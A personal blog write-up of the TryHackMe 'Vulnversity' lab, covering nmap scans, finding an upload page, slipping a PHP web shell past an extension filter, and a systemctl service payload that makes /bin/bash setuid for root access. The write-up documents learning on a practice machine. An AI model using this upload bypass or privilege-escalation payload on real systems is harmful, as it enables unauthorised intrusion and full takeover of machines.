




Vulnversity - How I'm getting the hang of it
by Leo Smith / p4p1
Created on Wed. 22 April 2020
For my second write-up I clearly became so much better at resolving boxes compared to before. I managed to finish this one with less help than before, I was able to exploit it so much better than the last one. The part I got stuck at was the tty aspect of my shell...
Reconnaissance
As usual I begin with a classic nmap, most of the recon I usually try and do as much as possible without the help that the room ensures.
nmap -sV x.x.x.x
Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-21 02:12 CEST
Nmap scan report for 10.10.76.153
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open http-proxy Squid http proxy 3.5.12
3333/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.18 seconds
nmap --script vuln x.x.x.x
Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-21 02:12 CEST
Pre-scan script results:
| broadcast-avahi-dos:
| Discovered hosts:
| 224.0.0.251
| After NULL UDP avahi packet DoS (CVE-2011-1002).
|_ Hosts are all up (not vulnerable).
Nmap scan report for 10.10.76.153
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT STATE SERVICE
21/tcp open ftp
|_sslv2-drown:
22/tcp open ssh
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3128/tcp open squid-http
3333/tcp open dec-notes
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos:
| VULNERABLE:
| Service regsvc in Microsoft Windows systems vulnerable to denial of service
| State: VULNERABLE
| The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
| pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
| while working on smb-enum-sessions.
|_
Nmap done: 1 IP address (1 host up) scanned in 45.20 seconds
After the end of the first nmap scan I started looking around the web server that is hosted on port 3333. With no more information on the website and no vulnerabilities to exploit from the nmap, I returned to the tryhackme page.
Dir busting
After filling up the reconnaissance page I went to the next step about dirbuster where I decided to use another tool, owasp zapproxy, to see if I could achieve the same result with another tool.
Amazing! After waiting for the zap proxy to finish there was a /internal/ entry returned by the program. When I opened it there was a nice upload page.
On that upload page I tried uploading a .php file and I got an error saying that I couldn't upload .php files.
Compromisation of server
So then I went back to the tryhackme page and filled in all of the answers corresponding to the dirbuster research. I looked into the next section where they indicated that you need to compromise the webserver using burpsuite. Following their indications, I opened burpsuite and did the different steps. Not that hard innit.
After finding the extension that is expected to upload, I then renamed my phpbash.php script to phpbash.phtml. So that I can compromise the webserver.
Privilege escalation
With the information I extracted, the first flag in the home folder of the main user, I looked back on the tryhackme page and I figured out I needed to do some simple privesc. So then I started scanning the system for setuid programs with:
find / -perm -4000
Looking at the output of the command, I saw that systemctl had a suid bit active. I researched on gtfobins what I could do with systemctl and if I could do some privilege escalation.
Finding that it was possible, I first wanted to upgrade my shell to a cleaner one. By looking at two tutorials online (see links) I then upgraded my shell.
I then, with that new information started working on the exploit I wanted to use:
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
The exploit I implemented is to try to make bash a suid program so that if I run bash -p I keep the root permissions of the setuid bit. With that I had total access to the machine.
Working on this second machine was a lot less stressful than last time. I took more time to study and research the different topics. In conclusion, this was fun, I used less external help and reverted to old writeups so that I could upgrade my reverse shell. This room gave me an idea. I'm going to code my own reverse shell that spawns automatically in the fake tty mode so that I never go back to the struggle of trying to get a clean shell. This will probably be showcased in my next writeup.
Thank you for reading, please follow me on github and check out my other writeups.